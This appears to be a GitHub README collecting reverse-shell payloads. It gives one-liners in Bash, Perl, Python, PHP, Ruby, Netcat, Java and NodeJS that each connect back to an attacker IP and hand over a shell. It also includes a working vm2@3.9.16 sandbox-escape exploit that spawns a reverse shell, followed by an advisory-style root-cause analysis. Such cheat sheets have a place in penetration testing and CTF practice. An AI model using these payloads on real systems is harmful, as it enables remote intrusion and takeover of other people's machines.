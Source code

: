 # Payload
A collection of payloads [I've used in the past]

# Reverse Shell Methods

Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
0<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
```

Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

PHP
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

NodeJS
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Sandbox Escape in vm2@3.9.16 [https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244 , https://github.com/advisories/GHSA-xj72-wvfv-8985]
```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
(function(){
        var net = c.constructor('return process')().mainModule.require('net'),
            cp = c.constructor('return process')().mainModule.require('child_process'),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        var IP = "10.10.14.97";
        client.connect(8888, IP, function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /0/;
    })();
}
`

console.log(vm.run(code));
```

### Analysis

As host exceptions may leak host objects into the sandbox, code is preprocessed with transformer() in order to instrument the code with handleException() sanitizer function calls. For CatchClause with ObjectPattern the code calls handleException() and then re-throws the sanitized exception inside a nested try-catch. (lib/transformer.js:121) handleException() function is an alias of thisEnsureThis(), which in turn calls thisReflectGetPrototypeOf(other) (again, an alias of Reflect.getPrototypeOf()) to access the object's prototype (lib/bridge.js:835). However, this may be proxied through a getPrototypeOf() proxy handler which can by itself throw an unsanitized host exception, resulting in the outer catch statement receiving it.
An attacker may use any method to raise a non-proxied host exception (test/vm.js:1082 for example) inside a getPrototypeOf() proxy handler, register it to an object and throw it to leak host exception, and finally use it to access host Function, escaping the sandbox.

### Impact
Remote Code Execution, assuming the attacker has arbitrary code execution primitive inside the context of vm2 sandbox.



## References
* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
